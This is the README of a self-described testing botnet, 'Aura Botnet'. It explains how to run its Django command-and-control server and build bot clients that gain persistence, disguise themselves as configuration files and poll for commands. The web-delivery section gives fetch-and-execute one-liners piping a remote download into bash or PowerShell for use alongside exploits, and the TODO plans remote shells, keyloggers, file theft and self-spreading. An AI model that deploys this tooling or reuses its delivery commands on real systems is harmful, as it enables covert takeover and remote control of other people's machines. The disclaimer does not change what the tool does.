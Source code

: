 # Aura Botnet

C2 Server
---
The botnet's C2 server utilizes the Django framework as the backend.
It is far from the most efficient web server, but this is offset by the
following:
* Django is extremely portable and therefore good for testing/educational
purposes. The server and database are contained within the `aura-server`
folder.
* Django includes a very intuitive and powerful admin site that can be used
for managing bots and commands
* The server is only handling simple POST requests and returning text
* Static files should be handled by a separate web server (local or remote) that
excels in serving static files, such as nginx

The admin site located at `http://your_server:server_port/admin` can be
accessed after setting up a superuser (see below).

Database
---
The C2 server is currently configured to use a SQLite3 database,
`bots.sqlite3`. The current configuration can be changed in the *settings.py*
file under `aura-server/aura`. You may wish to use MySQL, or even PostgreSQL
instead; this easy to do thanks to Django's portable database API.

Bot Clients
---
The primary client is written in C++, and can be compiled for either Linux or
Windows using CMake. Alternate clients are written in Rust, Bash, and Powershell.

The client will gather relevant system information and send it to the C2 server
to register the new bot. Identification is done by initially creating a file
containing random data -- referred to as the *seed* throughout the code -- which
will then be hashed each time the client runs to identify the client and
authenticate with the C2 server. It will then install all the files in the
folder specified in the code, and initialize the system service or schedule a
task with the same privileges that the client was run with. The default settings
have the client and other files masquerading as configuration files.

Getting Started: C2 Server
---
The Docker image can be found [here](https://hub.docker.com/r/watersalesman/aura-c2/).
Follow the instructions below to run the server normally.

To initialize the SQLite3 database, simply change into the `aura-server`
directory and run:
```
./manage.py migrate
```
After the database is initialized, create a superuser for the admin site by
running
```
./manage.py createsuperuser
```
More information on configuring database
and the admin site can be found in the following
[tutorial](https://docs.djangoproject.com/en/1.11/intro/tutorial02/)
and [documentation](https://docs.djangoproject.com/en/1.11/ref/databases/).

Finally, run the following to start the server:
```
./runserver.sh
```
`runserver.sh` is just a wrapper around `manage.py runserver` with some default
options that runs the server on port 41450. This can be easily edited or
bypassed altogether.

Geting Started: Bot Clients
---
You can choose whichever client you feel is most appropriate for the platform
and use case.

For the Linux C++ client, change into the source directory (`aura-client`).
If the repo was not cloned with the `--recursive` flag, pull the needed
dependencies by running:
```
git submodule update --init --recursive
```

Then build by running:
```
cmake .
make
```

For building the Windows C++ client, you can find various methods of using
CMake on Windows
[here](http://preshing.com/20170511/how-to-build-a-cmake-based-project/).

For the Rust client, you will need Rust installed on the platform that you wish
to compile for. Unfortunately, there is no simple method of cross-compiling that
I am aware of. Go into the source directory (`alt-clients/rust/rust-linux` or
`alt-clients/rust/rust-windows`) and run:
```
cargo build --release
```
The binary will be sent to `client/rust-*/target/release/`.

The Powershell and Bash clients simply need to be executed on the target
machine.

The client executable or script need to be run in the same folder as
any necessary components (systemd services for Linux clients and launcher.vbs
for Powershell) on the target machine, or installed via web delivery (see
below).

Configuring Commands
---

These can easily be managed through the Django shell or admin site. The
client periodically communicate with the specified server using POST
requests to receive a command (default is every 5 minutes). Commands can be set
to run for specific bot groups defined by operating system and user privilege.
This is specified in `aura-server/groups.json`. The only reserved group
numbers are `-1`, for priority commands that are run by all bots, and `-2`, for
default commands that are run by all bots only if there is no other command to run;
you can also assign commands to individual bots using the hash of their seed.
Each command can be given a start time and end time. Oneshot commands will only
run once on each bot.

Client Web Delivery
---
The *static* folder can be used to store files to be served by a web server --
preferably an nginx server running on a different port or host as your Django
server. You will need to compile and place the files into the folders, and edit
the index files to reflect any changes like the server name. The simplicity of
executing via web delivery makes it easy to integrate with exploits that run
arbitrary code. An example in bash would be:

```
curl http://static-server-name/welcome/linux/rust | bash
```
In Powershell:
```
Invoke-RestMethod http://static-server-name/welcome/windows/rust | powershell
```

This will run the client with the current privileges, install any necessary
files, and cleanup the downloaded files.

Other Notes
---
Because this is for testing purposes, the C2 server needs to be
hard-coded into client and web delivery files. It is currently set to
*localhost* on all the files. This is because an actual botnet would use something
like a domain generation algorithm (DGA) to sync a stream of changing domains on
the client side with a stream of disposable domains being registered -- or just
really bulletproof hosting like the original Mirai botnet.

The code is also not obfuscated nor is there any effort put toward preventing
reverse engineering; this would defeat the purpose of being a botnet for
testing and demonstrations.

The *killswitch* folder contains scripts for easy client removal when testing
on your devices.

TODO
---
- Cleanup code styling and optimize Django views
- Add support for "modules" to be run easily on arbitrary clients. E.g.: Start
an interactive shell, grab arbitrary system files, install keylogger, spread
using various exploits etc.
- Create clients for mobile devices
- Implement compatibility with running C2 server as a hidden Tor service

<h2>This repo is for testing purposes only. This is not meant to be
implemented in any real world applications except for demonstrations.</h2>
